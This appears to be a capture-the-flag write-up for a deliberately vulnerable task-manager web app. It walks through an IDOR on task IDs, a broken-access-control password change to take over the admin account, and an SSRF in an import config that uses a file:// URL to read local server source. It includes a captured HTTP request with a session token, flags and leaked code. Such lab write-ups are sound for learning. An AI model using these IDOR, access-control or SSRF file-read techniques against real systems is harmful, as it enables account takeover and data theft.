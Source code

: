 We are working on this amazing new task manager app called Taskist Pro. Our devs claim the app is secure, we want you to take a look at it and see if you can leak the flag hidden inside the admin account.

http://taskist.pwn.site:1337/

IDOR on the task number like /123, just intruder it. Got distracted doing it with password changes first. 

Flag 1

flag{Id0rs_1n_4Pi5_ftW_45345}

Broken RBAC on the password change function, aka where I started this first, so I was right the entire time. But do GETs first to find the right acount ID, then used that to only have to do one password change with admin ID number, as opposed to brute forcing that one from the get go. 

Admin password: br0k3n_p4ss_c0ntr0l_l0gin

Flag 2

flag{br0k3n_acc3ss_c0ntrolz_43534}

Checking Import function

Upload a correct JSON config file, and receive an error that the PNG in config is not accepted. 

```http
POST /import HTTP/1.1
Host: taskist.pwn.site:1337
Content-Length: 578
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://taskist.pwn.site:1337
Referer: http://taskist.pwn.site:1337/site_config
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjo2NCwidXNlcm5hbWUiOiJhZG1pbiIsImlhdCI6MTcwOTIzNDc4OX0.N95u86qtWwIFqbgfk-UwiOVR-Tf39TxunS5X2JRy4ng
Connection: close

{
	"site_name":"Taskist Pro",
	"site_logo":"https://i.imgur.com/bwV4a0B.png",
	"under_maintenance":"No",
	"site_meta_desc":"Join million people and teams that organize, plan, and collaborate on tasks and projects with Taskist. \\'The best to-do list\\' by The Verge.",
	"site_meta_keyw":"Task Manager, Taskist, Taskist Pro",
	"site_robots_txt":"Index, Follow",
	"send_mail_enabled":"No",
	"send_mail_mailer":"SMTP",
	"mail_from_name":"admin@taskistpro.ts",
	"smtp_security":"SSL",
	"smtp_hostname":"smtp.taskistpro.ts",
	"smtp_port":"465",
	"smtp_username":"admin@taskistpro.ts",
	"smtp_password":"abc123"}
```

The PNG error draws attention to the site_logo value which looks to allow a full URL and attempt to fetch it from the internet. This could indicate and SSRF.

Can use both HTTP protocol to try to request another site, or can use file:// protocol to attempt to read local files. To test, try to fetch files that we know exist, such as any of the .js files from the homepage.

Since it is an SSRF where the whole path will be needed, we will need to specify the exact location. Typically we might try something like /var/www as the webroot, but in this scenario there is a hint in the admin's tasks saying they haven't moved the webroot from /app/ to /var/www, so we to try for something like /static/js/dashboard.js in the /app/ directory with the file:// protocol. 

`"site_logo":"file:///app/static/js/dashboard.js",`

This shows the contents of the dashboard.js file. 

Now lets try to use this to view other interesting source code, like the page we're on, site_config.js. 

```js
const express       = require('express');
const app           = express();
const path          = require('path');
const cookieParser  = require('cookie-parser');
const nunjucks      = require('nunjucks');
const routes        = require('./routes');
const Database      = require('./database');
global.db           = new Database();

const flagHere = \"flag{bl3ss_7hy_libcurl_pro7oco1s_43454}\"

const db = new Database('taskist-pro.db');

app.use(express.json());

app.use(cookieParser());

app.disable('etag');
app.disable('x-powered-by');

nunjucks.configure('views', {
\tautoescape: true,
\texpress: app
});

app.set('views', './views');
app.use('/static', express.static(path.resolve('static')));

app.use(routes(db));

app.all('*', (req, res) => {
\treturn res.status(404).send({
\t\tmessage: '404 page not found'
\t});
});

app.use((err, req, res, next) => {
    return res.status(400).send({
        message: 'Bad Request'
    });
});

(async () => {
\tawait global.db.connect();

\tapp.listen(1337, '0.0.0.0', () => console.log('Listening on port 1337'));
})();
"

```

